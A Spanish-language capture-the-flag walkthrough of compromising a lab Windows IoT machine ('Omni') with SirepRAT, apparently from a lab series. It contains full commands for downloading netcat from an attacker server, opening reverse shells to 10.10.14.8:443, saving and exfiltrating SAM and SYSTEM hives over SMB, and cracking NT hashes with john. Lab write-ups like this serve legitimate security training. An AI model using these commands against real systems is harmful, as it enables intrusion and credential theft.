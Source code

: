 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con SirepRAT {-}

1. Descargamos nc64

    ```bash
    wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe
    ```

1. Creamos un servidor web con python

    ```bash
    python3 -m http.server 80
    ```

1. Intentamos descargar el binario desde la maquina victima

    ```bash
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c certutil.exe -f -urlcache -split http://10.10.14.8/nc64.exe C:\Windows\Temp\nc64.exe" --v
    ```

Aqui vemos que no a pasado nada y que no hemos recibido ningun GET a nuestro servidor python.

Miramos si funcciona usando un directorio [applocker](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)

```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c certutil.exe -f -urlcache -split http://10.10.14.8/nc64.exe C:\Windows\System32\spool\drivers\color\nc64.exe" --v
```

No funcciona. Intentamos con Powershell

```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "powershell" --args " /c iwr -uri http://10.10.14.8/nc64.exe -OutFile C:\Windows\System32\spool\drivers\color\nc64.exe" --v
```

Ahora si. Intentamos entablarnos una reverseshell.

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos la shell

    ```bash
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.8 443" --v
    ```

Ya estamos a dentre de la maquina victima.

```bash
whoami
#Output
'whoami' is not recognized as an internal or external command.

echo %USERNAME%
#Output
Omni
```

Como no hay directorio de usuarios en la maquina buscamos recursivamente por un fichero llamado `user.txt`

```bash
dir /r /s user.txt
cd C:\Data\Users\app
type user.txt
```

Aqui vemos quel fichero esta de typo `System.Management.Automation.PSCredential` que significa que esta cifrado. Intentamos leerlo con
el comando `(Import-CliXml -Path user.txt)` pero no nos deja. Miramos los derechos de este fichero con `icacls user.txt` y vemos quel usuario
app tiene los derechos full para este fichero. Esto significa que nos tenemos que convertir en el usuario **app**. 


### User Pivoting {-}


Lo raro aqui es que si hacemos 
un `net user`, no vemos que existe el usuario **omni** y esto es turbio porque tambien podria decir que somos un usuario privilegiado.

Si creamos una carpeta en `C:\Data\Users` vemos que podemos crearla sin problema. Intentamos ver si podemos recuperar cosas como **sam**.

```bash
cd C:\Data\Users
mkdir Temp
cd Temp
reg save HKLM\system system.backup
reg save HKLM\sam sam.backup
```

Nos transferimos los ficheros creando un recurso compartido a nivel de red.

```bash
impacket-smbserver smbFolder $(pwd) -smb2support -username s4vitar -password s4vitar123
```

Desde la maquina victima, nos creamos una unidad logica, la qual se conecta a nuestro recurso compartido

```bash
net use x: \\10.10.14.8\smbFolder /user:s4vitar s4vitar123
dir x:\
dir C:\Temp
copy sam.backup x:\sam
copy system.backup x:\system
```

#### Crackeando los hashes NT con John {-}

Ahora intentamos dumpear los hashes de los usuarios con **secretsdump**.

```bash
secretsdump.py -sam sam -system system LOCAL
```

Hemos podido obtener los hashes NT de los usuarios del systema. Los copiamos y los metemos en un fichero llamado hashes.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes --format=NT
```

Aqui hemos podido crackear el hash del usuario **app**

#### Creando una reverseshell desde Windows Device Portal {-}

Nos connectamos al portal de la web a la url `http://10.10.10.204:8080`. Aqui buscamos manera de ejecutar comandos como en Cualquier gestor
de contenido o panel de administracion. Y encontramos en el menu Processes un link llamado **Run command**.

Probamos con `echo %USERNAME%` y ejecuta el comando como el usuario app. Creamos un reverseshell.

1. Nos ponemos en escuchar por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos el ncat previamente uploadeado en el systema

    ```bash
    C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.8 443
    ```

Ya somos el usuario app y intentamos ejecutar la operacion cryptografica para leer la flag.

```bash
cd C:\Data\app
powershell
(Import-CliXml -Path user.txt)
(Import-CliXml -Path user.txt).GetNetworkCredential()
(Import-CliXml -Path user.txt).GetNetworkCredential().password
```

Ya tenemos la flag.

